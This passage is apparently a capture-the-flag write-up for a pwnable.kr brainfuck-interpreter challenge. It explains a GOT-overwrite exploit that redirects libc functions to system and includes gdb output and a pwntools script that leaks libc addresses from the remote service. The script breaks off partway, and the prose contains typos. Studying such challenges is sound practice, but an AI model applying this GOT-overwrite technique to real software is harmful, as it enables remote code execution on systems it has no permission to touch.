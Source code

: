 ```c
      break;
    case 91:
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

We have seven operations:
- `+` add 1 from the byte pointed by p
- `,` get input from user
- `-` del 1 from the byte pointed by p
- `.` put content in pointer *p* to standard output
- `<` delete 1 to pointer *p*
- `>` add 1 to pointer *p*
- `[` not supported...

After lazy binding, the value of *.got.plt* will directly point to the function in libc. We can add or subtract a offset to *.got.plt* to change the value to the address of `system`. Because there is no direct way for us to pass a string to a function. We need to overwrite `putchar` to `main`. Then, `memset` to `fgets`, and finally `fgets` to `system`.

We can get them through gdb:
```
pwndbg> disass getcahr
Dump of assembler code for function getchar@plt:
   0x08048440 <+0>:     jmp    DWORD PTR ds:0x804a00c
   0x08048446 <+6>:     push   0x0
   0x0804844b <+11>:    jmp    0x8048430
```
> To avoid repeating, I only show one instance

```python
from pwn import *

bin = remote('pwnable.kr', 9001)

system_offset = 0x3a920
putchar_offset = 0x60c80
memset_offset = 0x76150
fgets_offset = 0x5d540
gets_offset = 0x5e770

payload = "<" * 112 # go to putchar got
payload += ".>" * 4 # leak address
payload += "<" * 4 # prepare to write
payload += ",>" * 4 # write putchar got
payload += "<" * 8 # go to memset got
payload += ",>" * 4 # write memset got
payload += "<" * 32 # go to fgets got
payload += ",>" * 4 # write fgets got
payload += "." # tirger

bin.recvuntil(']')
bin.sendline(payload)
putchar_addr = u32(bin.recv(4))
libc_base = putchar_addr - putchar_offset
system_addr = libc_base + system_offset
memset_addr = libc_base + memset_offset
fgets_addr = libc_base + fgets_offset
gets_addr = libc_base + gets_offset

```